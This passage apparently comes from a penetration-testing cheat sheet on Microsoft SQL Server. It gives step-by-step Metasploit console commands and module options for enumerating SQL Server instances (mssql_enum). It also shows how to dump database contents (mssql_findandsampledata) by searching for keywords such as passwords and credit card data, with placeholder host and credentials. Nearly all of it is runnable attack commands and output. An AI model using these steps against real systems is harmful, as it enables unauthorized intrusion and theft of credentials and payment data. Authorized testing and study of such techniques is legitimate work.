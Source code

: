 #### 3.1.2 - Enumerate Instances

```
msf > use auxiliary/admin/mssql/mssql_enum

msf auxiliary(admin/mssql/mssql_enum) > options

Module options (auxiliary/admin/mssql/mssql_enum):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   PASSWORD                              no        The password for the specified username
   RHOSTS                                yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT                1433             yes       The target port (TCP)
   TDSENCRYPTION        false            yes       Use TLS/SSL for TDS data "Force Encryption"
   USERNAME             sa               no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false            yes       Use windows authentification (requires DOMAIN option set)

msf auxiliary(admin/mssql/mssql_enum) > set rhosts <IP>

msf auxiliary(admin/mssql/mssql_enum) > set username <username>

msf auxiliary(admin/mssql/mssql_enum) > set password <password>

msf auxiliary(admin/mssql/mssql_enum) > run
```

#### 3.1.3 - Dumping Database

```
msf > use auxiliary/admin/mssql/mssql_findandsampledata

msf auxiliary(admin/mssql/mssql_findandsampledata) > options

Module options (auxiliary/admin/mssql/mssql_findandsampledata):

   Name                 Current Setting    Required  Description
   ----                 ---------------    --------  -----------
   KEYWORDS             passw|credit|card  yes       Keywords to search for
   PASSWORD                                no        The password for the specified username
   RHOSTS                                  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT                1433               yes       The target port (TCP)
   SAMPLE_SIZE          1                  yes       Number of rows to sample
   TDSENCRYPTION        false              yes       Use TLS/SSL for TDS data "Force Encryption"
   THREADS              1                  yes       The number of concurrent threads (max one per host)
   USERNAME             sa                 no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false              yes       Use windows authentification (requires DOMAIN option set)

msf auxiliary(admin/mssql/mssql_findandsampledata) > set rhosts <IP>

msf auxiliary(admin/mssql/mssql_findandsampledata) > set threads 4

msf auxiliary(admin/mssql/mssql_findandsampledata) > set username <username>

msf auxiliary(admin/mssql/mssql_findandsampledata) > set password <password>

msf auxiliary(admin/mssql/mssql_findandsampledata) > set sample_size 8

msf auxiliary(admin/mssql/mssql_findandsampledata) > set keywords <keyword1>|<keyword2>|<keyword3>

```